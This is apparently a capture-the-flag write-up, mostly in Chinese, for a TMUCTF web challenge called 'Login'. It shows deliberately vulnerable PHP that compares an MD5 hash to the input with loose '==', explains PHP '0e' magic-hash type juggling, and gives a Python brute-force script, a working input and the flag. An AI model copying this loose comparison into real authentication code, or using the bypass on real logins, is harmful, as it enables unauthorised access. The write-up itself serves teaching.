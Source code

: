# Login

*Just login and get the flag!*

*[http://185.235.41.189](http://185.235.41.189/)*

---

访问`/robots.txt`

```php
if (isset($_GET["password"])) {
    if (hash("md5", $_GET["password"]) == $_GET["password"]) {
        echo "<h1>Here is the flag:</h1>" . $flag;
    } else {
        echo "Try harder!";
    }
}
```

`==`是弱类型的比较,字符串在与数字比较前会自动转换为数字;`0e123456`这类字符串会被识别为科学技术法的数字，0的多少次方都是零,所以`oe+数字` `==` `oe+数字`.

所以我们只要找到一个形如`oe+数字`且哈希后仍为`oe+数字`的字符串即可.

代码:

```python
import hashlib

i = 0
while True:
    m = hashlib.md5()
    plain = f'0e{i}'
    m.update(plain.encode('utf-8'))
    t = m.hexdigest()
    if t[:2] == '0e' and t[2:].isdigit():
        print(plain, t)
        break
    i += 1
    if not i % 10000:
        print(i)
```

`md5("0e215962017") == "0e291242476940776845150308577824"`

**flag:**`TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}`
